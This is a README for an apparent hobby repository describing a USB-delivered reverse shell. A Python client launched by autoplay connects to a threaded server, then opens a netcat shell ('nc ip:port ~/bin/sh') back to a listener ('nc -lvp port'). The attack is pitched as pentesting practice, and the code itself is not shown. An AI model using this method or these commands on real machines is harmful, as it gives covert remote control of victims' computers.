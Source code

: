 # 6-1-22-ReverseSshWithPythonSocketWithScripts
A reverse ssh script created with the intended use of expressing creativity and honing python skills.

Copyright (c) 2022, 
All rights reserved.school-ehayashi1

This source code is licensed under the MIT-style license found in the
LICENSE file in the root directory of this source tree. 


# A Beginner's Guide to a Reverse Shell Usb 
*By US_ML_ehayashi1 and MarkAppprogrammer*

In this repo we illustrate a basic client and server script for executing reverse shells. The basic theorized method for use is to download the client and cmd.txt onto a USB. *Please note that you must enable auto play for the client program to automatically execute once plugged in.* 

The program, in theory, would execute the client program, connecting to the server program which, in this case, would be made via a socket tcp connection(IPv4, socket stream). 

The server side would handle the different connections by multi-threading. Once exchanging a secure connection, the client script would execute a netcat command to create a reverse ssh(nc ip:port ~/bin/sh), enabling scripts to be run by the server side(listening via nc -lvp port)

After, the means of attack are up to you. We have provided a few simple scripts for you to utilize. Keep in mind, these programs are intended for basic pentesting and malware analysis, and were made as a fun hobby on the side, as an expression of creativity to exercise our knowledge.

*Please note that none of the authors, contributors, administrators, vandals, or anyone else connected with the makers of this repository/program, in any way whatsoever, can be responsible for your use of the information and code contained in or linked from these web pages.*
